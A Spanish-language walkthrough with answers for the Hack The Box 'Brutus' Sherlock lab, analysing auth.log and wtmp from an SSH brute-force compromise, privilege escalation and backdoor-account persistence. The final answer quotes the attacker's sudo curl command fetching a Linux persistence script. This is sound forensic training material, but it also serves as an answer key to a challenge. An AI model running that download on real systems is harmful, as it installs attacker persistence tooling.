







## Brutus-Sherlock-HTB

Se identificó un compromiso en un servidor Confluence que exponía su servicio SSH. El atacante llevó a cabo un ataque de fuerza bruta hasta obtener acceso con éxito, posteriormente escaló privilegios y estableció persistencia mediante la creación de un usuario con derechos elevados.
Archivos para el laboratorio: 
- auth.log: 
auth.log es un archivo de registro de autenticaciones del sistema Linux.
Se encuentra típicamente en /var/log/auth.log, contiene todos los eventos relacionados con seguridad y autenticación.
- wtmp: 
El archivo wtmp es un registro binario del sistema Linux que guarda los eventos de inicio y cierre de sesión de usuarios, así como reinicios del sistema, cambios de nivel de ejecución y otros eventos importantes relacionados con sesiones de terminal. Ubicado en /var/log/wtmp en un sistema Linux.
- utmp.py: 
Este script es un analizador de archivos utmp (como wtmp, btmp, etc.) para sistemas Linux. El script recorre el archivo wtmp de 384 en 384 bytes (tamaño de cada registro), decodifica y traduce los valores binarios a un formato legible.
### Analyze the auth.log. What is the IP address used by the attacker to carry out a brute force attack?

    Respuesta: 65.2.161.68
### The bruteforce attempts were successful and attacker gained access to an account on the server. What is the username of the account?

    Respuesta: root
### Identify the UTC timestamp when the attacker logged in manually to the server and established a terminal session to carry out their objectives. The login time will be different than the authentication time, and can be found in the wtmp artifact.

    Respuesta: 2024-03-06 06:32:45

### SSH login sessions are tracked and assigned a session number upon login. What is the session number assigned to the attacker's session for the user account from Question 2?
```
cat auth.log | grep "session"
```

    Respuesta: 37
### The attacker added a new user as part of their persistence strategy on the server and gave this new user account higher privileges. What is the name of this account?

    Respuesta: cyberjunkie
### What is the MITRE ATT&CK sub-technique ID used for persistence by creating a new account?
```
El ID de subtécnica de MITRE ATT&CK para la persistencia mediante la creación de una nueva cuenta es: T1136.001
Técnica: T1136 - Create Account
Subtécnica: T1136.001 - Local Account
Esta técnica describe cómo un atacante crea una nueva cuenta de usuario local en el sistema comprometido para mantener el acceso de forma persistente.
```
### What time did the attacker's first SSH session end according to auth.log?

    Respuesta: 2024-03-06 06:37:24
### The attacker logged into their backdoor account and utilized their higher privileges to download a script. What is the full command executed using sudo?

    Respuesta: `/usr/bin/curl https://raw.githubusercontent.com/montysecurity/linper/main/linper.sh`